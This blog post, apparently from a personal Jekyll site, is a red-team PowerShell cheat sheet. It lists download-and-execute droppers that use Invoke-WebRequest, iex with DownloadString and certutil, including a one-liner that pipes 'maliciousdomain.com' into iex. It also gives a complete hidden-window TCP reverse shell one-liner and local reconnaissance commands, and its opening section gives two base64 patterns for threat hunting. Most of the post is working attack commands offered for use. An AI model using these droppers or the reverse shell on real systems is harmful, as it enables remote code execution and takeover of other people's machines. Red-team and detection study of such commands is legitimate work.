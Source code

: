 ```yaml
---
layout: post
title:  "Powershell for Red Teaming"
date:   2025-05-23 21:00:00 +1000
categories: scripts
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Red teaming powershell scripts. Droppers and more.

--- Threat Hunting Patterns ---
Base64 is deterministic. Meaning there is no randomness. So, identifying patterns is important when threat hunting and creating SIEM rules.
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)
- ``` powershell -Command certutil -urlcache -split -f https://google.com/safe-script.ps1 payload.exe``` (LOLBAS Download)
- ``` powershell iwr maliciousdomain.com | iex ``` ()

### Reverse Shell One-Liners
--- TCP Rev Shell ---
- ``` powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient('RemoteIP',RemotePort);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){; $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1 | Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length)}" ```

### Recon Commands
--- Local Recon ---
- ```Get-Process```
- ```Get-LocalUser```
- ```Get-NetIPConfiguration```
- ```Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}```
- ```whoami /user```
- ```Get-LocalGroupMember -Group "Administrators"```
- ```Get-LocalGroup | ForEach-Object { Get-LocalGroupMember -Group $_.Name }```
- ```Get-SmbShare```
- ```net view \\hostname```
- ```Get-Service | Where-Object {$_.Status -eq 'Running'}``` 
